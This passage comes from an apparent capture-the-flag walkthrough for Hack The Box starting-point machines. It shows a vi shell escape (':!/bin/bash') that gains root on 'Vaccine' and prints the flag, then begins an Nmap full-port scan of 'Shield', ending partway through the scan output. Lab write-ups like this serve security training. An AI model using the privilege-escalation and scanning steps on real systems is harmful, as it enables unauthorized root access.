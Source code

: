 The user is allowed to edit the configuration `/etc/postgresql/11/main/pg_hba.conf` using vi. This can be leveraged to gain a root shell and access root.txt.

```
:!/bin/bash
root@vaccine:/var/lib/postgresql/11/main# whoami
root
root@vaccine:/var/lib/postgresql/11/main#cd /
root@vaccine:/# ls
ls
bin    etc             lib     lost+found  proc  snap      tmp      vmlinuz.old
boot   home            lib32   media       root  srv       usr
cdrom  initrd.img      lib64   mnt         run   swap.img  var
dev    initrd.img.old  libx32  opt         sbin  sys       vmlinuz
root@vaccine:/# cd root	
cd root
root@vaccine:~# ls
ls
pg_hba.conf  root.txt  snap
root@vaccine:~# cat root.txt
cat root.txt
dd6e058e814260bc70e9bbdef2715849
root@vaccine:~# 
```



## Shield (Microsoft, IIS and Mysql)

### Enumeration

**Note**: this starting point machine only features a `root.txt`

We begin by running an Nmap scan.

```
nmap -A -v 10.10.10.29 -p-
```

From the Nmap output, we find that IIS and MySQL are running on their  default ports. IIS (Internet Information Services) is a Web Server  created by Microsoft. 

```
# nmap -A -v 10.10.10.29 -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-11 20:11 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:11
Completed NSE at 20:11, 0.00s elapsed
Initiating NSE at 20:11
Completed NSE at 20:11, 0.00s elapsed
Initiating NSE at 20:11
Completed NSE at 20:11, 0.00s elapsed
Initiating Ping Scan at 20:11
Scanning 10.10.10.29 [4 ports]
Completed Ping Scan at 20:11, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:11
Completed Parallel DNS resolution of 1 host. at 20:11, 0.03s elapsed
Initiating SYN Stealth Scan at 20:11
Scanning 10.10.10.29 [65535 ports]
Discovered open port 3306/tcp on 10.10.10.29
Discovered open port 80/tcp on 10.10.10.29
SYN Stealth Scan Timing: About 6.36% done; ETC: 20:19 (0:07:36 remaining)
SYN Stealth Scan Timing: About 17.50% done; ETC: 20:17 (0:04:48 remaining)
SYN Stealth Scan Timing: About 31.41% done; ETC: 20:16 (0:03:19 remaining)
SYN Stealth Scan Timing: About 47.39% done; ETC: 20:15 (0:02:14 remaining)
SYN Stealth Scan Timing: About 65.26% done; ETC: 20:15 (0:01:20 remaining)
```